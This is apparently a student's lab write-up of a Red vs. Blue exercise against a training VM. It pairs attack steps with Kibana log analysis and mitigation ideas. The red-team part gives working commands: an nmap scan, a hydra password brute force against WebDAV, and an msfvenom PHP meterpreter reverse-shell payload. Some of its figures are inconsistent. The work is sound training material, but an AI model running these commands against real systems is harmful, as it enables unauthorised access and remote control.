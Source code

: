 # UCLA Project II - Red vs. Blue Engagement
## by Kurt Anderson

In this project I will work on a Red Team vs. Blue Team scenario in which I will play the roles of both Pentester and Security Operations Center Analyst.

As the Red Team, I will attack a vulnerable VM within my created virtual environment, ultimately gaining root access to the machine.
As the Blue Team, I will use Kibana to review logs taken during the Red Team engagement. I will then use the logs to extract hard data and visulaizations for my report, using it to interpret my log data to suggest mitigation measures for each exploit that I've successfully performed as a Pentester.

Day 1 Activity File: Red Team

Complete the following to find the flag:

●	Discover the IP address of the Linux web server.

Command:
	
	nmap -v 192.168.1.0/24 
  
  ![nmap scan of 192.168.1.0/24](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/nmap_scan.jpg)
  
IP address found:
  
	192.168.1.90
	
●	Locate the hidden directory on the web server.

I used dirb to enumerate any directories and identify the hidden folder.

![dirb directory enumeration](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/dirb_enumeration.jpg)
 
●	Brute force the password for the hidden directory using the hydra command:

![Hydra Brute Force](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/hydra.jpg)

Using the username and password I was able to log into the host and found a Personal Note:

Command:

	hydra -l ashton -P /usr/share/wordlists/rockyou.txt webdav://192.168.1.90/

![Personal Note:](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/personal_note.jpg)

●	Break the hashed password with the Crack Station website or John the Ripper.
 
![Cracked Password:](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/cracked_password.jpg)

●	Connect to the server via WebDav.

![WebDAV Credentials](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_login.PNG)

●	Upload a PHP reverse shell payload.
Command: 

	msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 raw > reverse_shell.php

![Payload](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/msvenom.jpg)
![WebDAV File Manager](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_reverse_shell.jpg)
![WebDAV Browswer](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_upload.jpg)
 
●	Execute the payload that you uploaded to the site to open up a meterpreter session.

![Exploit Payload](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/payload.jpg)
![Exploitation](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/exploitation.jpg)

●	Find and capture the flag.

![Flag Found](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/meterpreter.jpg)


Day 2 Activity File: Incident Analysis with Kibana

 
After creating your dashboard and becoming familiar with the search syntax, use these tools to answer the questions below:

1.	Identify the offensive traffic.
![Dashboard](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/Kibana_analysis.PNG)

○	Identify the traffic between your machine and the web machine:

	■	When did the interaction occur?

		The interaction occurred on 2021-12-14 03:00

	■	What responses did the victim send back?

		200, 207, 401, 404, 206, 304, 301

	■	What data is concerning from the Blue Team perspective?

		The status code ‘OK’ signifying that there was a completed request from the source IP and a response from the destination IP
 

2.	Find the request for the hidden directory.

○	In your attack, you found a secret folder. Let's look at that interaction between these two machines.

	■	How many requests were made to this directory? At what time and from which IP address(es)?

		There were 16,721 requests made to the directory /secret_folder, at 03:45 from the IP address 192.168.1.90.

	■	Which files were requested? What information did they contain?

		The file that was requested is the reverse_shell.php file

	■	What kind of alarm would you set to detect this behavior in the future?

		To detect this behavior in the future, I would set an alert to send an email with a high priority to notify the SOC that this type of request was made to access confidential company folders and data. 

	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.

		One way to harden the vulnerable machine that would mitigate this attack would be to ensure that the device has been updated and patched regularly in order to mitigate the exploitation of common system vulnerabilities.

3.	Identify the brute force attack.

○	After identifying the hidden directory, you used Hydra to brute-force the target server. Answer the following questions:
	
	■	Can you identify packets specifically from Hydra?

		Yes, by searching the ‘user_agent.original” field. 

	■	How many requests were made in the brute-force attack?

		There were 16,711 requests
 
	■	How many requests had the attacker made before discovering the correct password in this one?

		It appears that there were 16,711 requests before the correct password was discovered.
 

	■	What kind of alarm would you set to detect this behavior in the future and at what threshold(s)?

		I would set an alert to email the SOC that the login threshold has been surpassed in a certain amount of time. 


	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
		
		Upon searching through the logs it appeared that most of these requests happened through port 80 on the target machine, so I would suggest to place a firewall to filter out packets coming from outdated user agents like Mozilla 4.0, or close port 80 entirely.
	
4.	Find the WebDav connection.

○	Use your dashboard to answer the following questions:

	■	How many requests were made to this directory?

		209 requests were made to the 192.168.1.105/webdav/ directory.
 

	■	Which file(s) were requested?

		XML files were requested, based on the HTTP request method ‘propfind’, and the status code of 207, which is a response used by webdav servers.

	■	What kind of alarm would you set to detect such access in the future?

		An alarm to alert the SOC of any PROPFIND requests for Webdav.

	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.

		One way to harden the vulnerable machine from PROPFIND is to use multi-factor authentication to help prevent brute-force attacks on webdav logins.

5.	Identify the reverse shell and meterpreter traffic.

○	To finish off the attack, you uploaded a PHP reverse shell and started a meterpreter shell session. Answer the following questions:
	
	■	Can you identify traffic from the meterpreter session?
 
		There was a spike in activity from the source IP address 192.168.1.90, which potentially shows that the target machine 192.168.1.105 had been breached, since they share similar patterns in activity. 

	■	What kinds of alarms would you set to detect this behavior in the future?
		
		An alert that has a minimum threshold of packet traffic to alert the SOC of any spikes in activity, and is monitored every hour. 

	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
		
		In order to harden the vulnerable machine to mitigate this attack, I suggest that we require authentication in order to upload files to the webdav server, as well as defining the valid file extension types allowed on the server.
